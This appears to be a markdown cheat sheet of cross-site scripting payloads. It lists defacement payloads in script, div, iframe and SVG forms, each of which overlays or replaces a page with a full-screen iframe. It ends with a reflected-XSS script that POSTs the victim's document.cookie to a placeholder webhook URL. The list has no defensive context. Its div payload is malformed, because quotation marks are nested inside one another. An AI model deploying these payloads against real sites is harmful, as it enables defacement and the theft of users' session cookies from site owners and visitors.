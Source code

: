 # XSS Payloads

## XSS Defacement Payloads

### XSS Script Payload
List of XSS payloads

```
<script>document.documentElement.innerHTML="<html><iframe src='https://example.com' style='visibility: visible; border: 0; position: fixed; top: 0; right: 0; left: 0; bottom: 0; width: 100%; height: 100%;'></iframe></html>";</script>
```
### XSS Div Payload
```
<div onload="<script>document.documentElement.innerHTML="<html><iframe src='https://example.com' style='visibility: visible; border: 0; position: fixed; top: 0; right: 0; left: 0; bottom: 0; width: 100%; height: 100%;'></iframe></html>";</script>"></div>
```
### XSS Iframe Payload
```
<iframe src="https://example.com" style="border: 0; position: fixed; top: 0; right: 0; left: 0; bottom: 0; width: 100%; height: 100%;"></iframe>
```
### XSS SVG Payload
```
<svg width="100%" height="100%" style="position: fixed; top: 0; right: 0; bottom: 0; left: 0;"> <foreignObject width="100%" height="100%"> <body xmlns="http://www.w3.org/1999/xhtml"> <iframe src="https://example.com" style="border: 0; width: 100%; height: 100%;"></iframe> </body> </foreignObject> </svg>
```

## Reflected XSS Exploitation Payloads
```
<script> fetch('WEBHOOK.SITE URL HERE', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>
```
